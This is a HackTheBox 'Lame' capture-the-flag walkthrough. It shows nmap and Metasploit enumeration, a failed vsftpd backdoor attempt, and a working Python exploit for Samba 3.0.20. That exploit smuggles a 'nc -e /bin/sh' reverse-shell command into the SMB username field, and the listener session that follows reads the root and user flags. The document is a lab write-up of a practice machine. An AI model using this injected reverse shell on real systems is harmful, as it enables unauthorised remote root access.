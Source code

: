 ```yaml
---
attachments: [nmap.xsl]
title: HackTheBox Lame Walkthrough
created: '2020-08-21T13:46:56.185Z'
modified: '2020-08-22T14:47:04.348Z'
---
```


# HackTheBox Lame Walkthrough

This is a Walkthrough how I get the user and root flag on the machine. All my scan results are stored in the [attachments](./attachments) folder.

Machine details:

- Machine Name : Lame
- IP address: 10.10.10.3
- OS: Linux
- Difficulty: Easy

## Scanning

In this table I summarize the open ports and protocols and the XML version of the full results.

| Scan Type         | Open Ports/Protocols   | XML Output File                                |
|-------------------|------------------------|------------------------------------------------|
| Nmap IP Scan      | 1 (ICMP)               | [ip_legacy.xml](./attachments/ip_legacy.xml)   |
| Nmap TCP SYN Scan | 21, 22, 139, 445, 3632 | [tcp_legacy.xml](./attachments/tcp_legacy.xml) |
| Nmap UDP Scan     | -                      | [udp_legacy.xml](./attachments/udp_legacy.xml) |

## Enumeration

### OS Enumeration

The Nmap OS detection did not find clear match for OS. But the SMB enumeration found Unix (Debian).

### SMB Enumeration

```bash
root@Kali:/# msfconsole

 _                                                    _
/ \    /\         __                         _   __  /_/ __
| |\  / | _____   \ \           ___   _____ | | /  \ _   \ \
| | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -|
|_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_
      |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\


       =[ metasploit v5.0.101-dev                         ]
+ -- --=[ 2048 exploits - 1105 auxiliary - 344 post       ]
+ -- --=[ 566 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Use the resource command to run commands from a file

msf5 > use auxiliary/scanner/smb/smb_version
msf5 auxiliary(scanner/smb/smb_version) > show options

Module options (auxiliary/scanner/smb/smb_version):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   SMBDomain  .                no        The Windows domain to use for authentication
   SMBPass                     no        The password for the specified username
   SMBUser                     no        The username to authenticate as
   THREADS    1                yes       The number of concurrent threads (max one per host)

msf5 auxiliary(scanner/smb/smb_version) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf5 auxiliary(scanner/smb/smb_version) > exploit

[*] 10.10.10.3:445        - Host could not be identified: Unix (Samba 3.0.20-Debian)
[*] 10.10.10.3:445        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/smb/smb_version) >
```

### Searching Vulnerabilities

I google for [samba 3.0.20-debian exploit](https://www.google.com/search?q=samba+3.0.20-debian+exploit&oq=Samba+3.0.20-Debian&aqs=chrome.1.69i57j0l4.1529j0j9&sourceid=chrome&ie=UTF-8) and  for [vsftpd 2.3.4 exploit](https://www.google.com/search?q=vsftpd+2.3.4+exploit&oq=vsFTPd+2.3.4+&aqs=chrome.1.69i57j0l7.1471j0j7&sourceid=chrome&ie=UTF-8).

I found the following vulnerabilities:
- [exploit-smb-3.0.20.py](https://github.com/macha97/exploit-smb-3.0.20/blob/master/exploit-smb-3.0.20.py)
- [VSFTPD v2.3.4 Backdoor Command Execution](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor)

## Exploit

### VSFTPD Exploit

I tried the Metaspoilt modul against the host but the exploit did not work:

```console
root@Kali:/# msfconsole

               .;lxO0KXXXK0Oxl:.
           ,o0WMMMMMMMMMMMMMMMMMMKd,
        'xNMMMMMMMMMMMMMMMMMMMMMMMMMWx,
      :KMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMK:
    .KMMMMMMMMMMMMMMMWNNNWMMMMMMMMMMMMMMMX,
   lWMMMMMMMMMMMXd:..     ..;dKMMMMMMMMMMMMo
  xMMMMMMMMMMWd.               .oNMMMMMMMMMMk
 oMMMMMMMMMMx.                    dMMMMMMMMMMx
.WMMMMMMMMM:                       :MMMMMMMMMM,
xMMMMMMMMMo                         lMMMMMMMMMO
NMMMMMMMMW                    ,cccccoMMMMMMMMMWlccccc;
MMMMMMMMMX                     ;KMMMMMMMMMMMMMMMMMMX:
NMMMMMMMMW.                      ;KMMMMMMMMMMMMMMX:
xMMMMMMMMMd                        ,0MMMMMMMMMMK;
.WMMMMMMMMMc                         'OMMMMMM0,
 lMMMMMMMMMMk.                         .kMMO'
  dMMMMMMMMMMWd'                         ..
   cWMMMMMMMMMMMNxc'.                ##########
    .0MMMMMMMMMMMMMMMMWc            #+#    #+#
      ;0MMMMMMMMMMMMMMMo.          +:+
        .dNMMMMMMMMMMMMo          +#++:++#+
           'oOWMMMMMMMMo                +:+
               .,cdkO0K;        :+:    :+:
                                :::::::+:
                      Metasploit

       =[ metasploit v5.0.101-dev                         ]
+ -- --=[ 2048 exploits - 1105 auxiliary - 344 post       ]
+ -- --=[ 566 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: View advanced module options with advanced

msf5 > use exploit/unix/ftp/vsftpd_234_backdoor
[*] No payload configured, defaulting to cmd/unix/interact
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   21               yes       The target port (TCP)


Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
msf5 exploit(unix/ftp/vsftpd_234_backdoor) >
```

### SMB Exploit

I changed the the exploit code to use Netcat reverse shell instead of the Metasploit payload:

```python
#!/usr/bin/python3
#exploit Samba smbd 3.0.20-Debian

from smb import *
from smb.SMBConnection import *

userID = '/=` nohup nc 10.10.14.23 4444 -e /bin/sh`'
password = 'password'
victim_ip = '10.10.10.3'

conn = SMBConnection(userID, password, "HELLO", "TEST", use_ntlm_v2=False)
conn.connect(victim_ip, 445)

```

#### Shell 1: Use the Exploit

```console
root@Kali:/# python3 smb_exploit.py
```

#### Shell 2: Listen for the Connection

The session already has ROOT privilege so the only think left is to find the user and root flag on the machine.

```console
root@Kali:/# nc -nlvp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.3.
Ncat: Connection from 10.10.10.3:56066.
id
uid=0(root) gid=0(root)
uname -a
Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
pwd
/
cat /root/root.txt
92caac3be140ef409e45721348a4e9df
cat /home/makis/user.txt
69454a937d94f5f0225ea00acd2e84c5
```

